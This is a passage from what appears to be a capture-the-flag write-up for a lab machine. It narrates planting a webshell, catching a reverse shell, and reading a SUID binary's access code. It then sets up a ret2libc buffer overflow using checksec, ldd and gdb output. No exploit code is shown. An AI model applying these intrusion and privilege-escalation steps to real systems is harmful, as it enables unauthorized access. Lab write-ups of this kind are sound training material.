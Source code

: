 `[!]` **/files** sound familiar, isn't it? Even contents are the same.

`[!]` We've seen **/files** endpoint on **443/tcp**. And **443/tcp** is open only on host.

`[+]` Copied webshell to **/files**.

`[+]` Jumped to a reverse TCP shell.

`[+]` Got **user.txt**! Proceeding to rooting the box.

`============`

`[!]` `linpeas.sh` showed unusual binary **/bin/lcars** which has SUID bit set.

`[*]` Running **/bin/lcars** asks for access code. Using Cutter to determine it.

`[+]` The code is: `picarda1`.

`[+]` Detected Buffer Overflow vulnerability in "Security" (`4`) menu entry.

`[+]` Protections (their absence):
```
limitedeternity$ checksec -f ../loot/lcars
    Canary: false
    CFI: false
    SafeStack: false
    Fortify: false
    Fortified: 0
    NX: false
    PIE: DSO
    Relro: Full
    RPATH: None
    RUNPATH: None
```

`[+]` Also, `linpeas.sh` showed, that ASLR is disabled.

`[*]` I don't see any interesting addresses to redirect execution flow to. Thus, ret2libc may be the way.

`[+]` Yes, it is:
```
root@parrot# ldd lcars
<...>
libc.so.6 => /lib32/libc.so.6 (0xf7dbf000)
<...>
```
`[+]` We've seen, that **/bin/lcars** listens for input on **32812/tcp**. Moving there.

`===========`

`[*]` **32812/tcp**: Vulnerable binary
```
root@parrot# gdb -q ./lcars
gef➤ break main
gef➤ run
Starting program: /media/psf/Home/Downloads/results/10.10.10.61/loot/lcars

Breakpoint 1, 0x56555ca0 in main ()

gef➤ disassemble main_menu
   <...>
   0x56555ad7 <+633>:	call   0x565555c0 <__isoc99_scanf@plt>
   0x56555adc <+638>:	add    esp,0x10
   0x56555adf <+641>:	sub    esp,0x8
   0x56555ae2 <+644>:	lea    eax,[ebp-0xd0]
   0x56555ae8 <+650>:	push   eax
   0x56555ae9 <+651>:	lea    eax,[ebx-0x2138]
   0x56555aef <+657>:	push   eax
   0x56555af0 <+658>:	call   0x56555560 <printf@plt>
   0x56555af5 <+663>:	add    esp,0x10
```